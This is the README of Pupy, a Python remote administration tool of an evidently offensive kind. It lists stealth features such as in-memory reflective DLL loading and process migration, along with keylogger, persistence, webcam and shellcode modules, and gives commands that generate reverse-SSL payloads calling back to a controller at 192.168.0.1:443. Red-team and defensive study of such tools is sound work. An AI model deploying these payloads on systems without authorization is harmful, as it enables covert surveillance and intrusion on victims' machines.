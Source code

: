 # Pupy
Pupy is an opensource, multi-platform Remote Administration Tool written in Python. On Windows, Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger
- persistence
- screenshot
- webcam snapshot
- in memory execution of PE exe both x86 and x64 :)
- command execution
- download
- upload
- socks5 proxy
- local port forwarding
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell
- shellcode exec (thanks to @byt3bl33d3r)

##Quick start
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
### generate/run a payload
#### for Windows
```bash
./pupygen.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
you can also use -t dll_x86 or dll_x64 to generate a reflective DLL and inject/load it by your own means.
#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

### start the server
1. eventually edit pupy.conf to change the bind address / port
2. start the pupy server :
```bash
./pupysh.py
```

### Some screenshots
#####list connected clients
![screenshot1](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr1.png "screenshot1")
#####help
![screenshot3](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/help.png "screenshot3")
#####execute python code on all clients
![screenshot2](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr2.png "screenshot2")
#####execute a command on all clients, exception is retrieved in case the command does not exists
![screenshot4](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr3.png "screenshot4")
#####use a filter to send a module only on selected clients
![screenshot5](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/filters.png "screenshot5")
#####migrate into another process
![screenshot6](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/migrate.png "screenshot6")
#####interactive shell
![screenshot7](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/interactive_shell.png "screenshot7")
#####interactive python shell
![screenshot8](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/pyshell.png "screenshot8")
#####upload and run another PE exe from memory
![screenshot9](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/memory_exec.png "screenshot9")
#####list available modules (the list is not up to date)
![screenshot10](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/list_modules.png "screenshot10")

##Example: How to write a MsgBox module
first of all write the function/class you want to import on the remote client  
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py 
```python
import ctypes
import threading

def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()
```
then, simply create a module to load our package and call the function remotely
```python
class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	@windows_only
	def is_compatible(self):
		pass

	def run(self, args):
		self.client.load_package("pupwinutils.msgbox")
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")

```

## Dependencies
rpyc (https://github.com/tomerfiliba/rpyc)

##Roadmap and ideas
Some ideas without any priority order
- support for https proxy
- bind instead of reverse connection
- add offline options to payloads like enable/disable certificate checking, embed offline modules (persistence, keylogger, ...), etc...
- integrate scapy in the windows dll :D (that would be fun)
- work on stealthiness and modules under unix systems
- mic recording
- socks5 udp support
- remote port forwarding
- perhaps write some documentation
- The backdoor factory ?
- Impacket ?
- exfiltration through obfsproxy obfuscated network stream ?
- ...
- any cool idea ?

## FAQ
> Does the server works on windows ?

Yes but it has not really been tested and it may be unstable
> I can't install it how does it work ?

pip install rpyc
> hey c4n y0u add a DDOS module plzz?

No.

## Contact
by mail: contact@n1nj4.eu  
on Twitter: [Follow me on twitter](https://twitter.com/n1nj4sec)  
[![Join the chat at https://gitter.im/n1nj4sec/pupy](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/n1nj4sec/pupy?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)  
If some of you want to participate or send me a feedback, don't hesitate :-)
 

